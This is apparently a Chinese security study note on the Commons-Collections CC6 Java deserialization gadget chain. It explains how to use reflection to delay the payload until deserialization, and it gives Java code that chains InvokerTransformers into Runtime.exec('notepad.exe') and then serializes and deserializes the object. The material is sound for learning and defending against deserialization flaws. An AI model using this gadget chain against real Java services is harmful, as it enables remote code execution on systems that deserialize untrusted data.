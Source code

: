 ## 绕过

绕过思路也很简单：

`hash()`函数中运行的是`TiedMapEntry.hashCode()`，而`TiedMapEntry()`中主要进行命令执行的参数主要是`map`，所以我们在`put`前给一个空的`map`，在`put`后再将`decoratemap`赋值给`TiedMapEntry()`中的`map`参数

利用反射去修改其中的参数值就可以了

![image-20250926150715573](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926150715573.png)

```java
 	Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashmap = new HashMap<>();
        Map decoratemap = LazyMap.decorate(hashmap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");

        Field mapfield = tiedMapEntry.getClass().getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(tiedMapEntry,new HashMap());
        hashmap.put(tiedMapEntry,"value");
        mapfield.set(tiedMapEntry,decoratemap);
        serialize(hashmap);
        unserialize("test.txt");
```

# 调用链

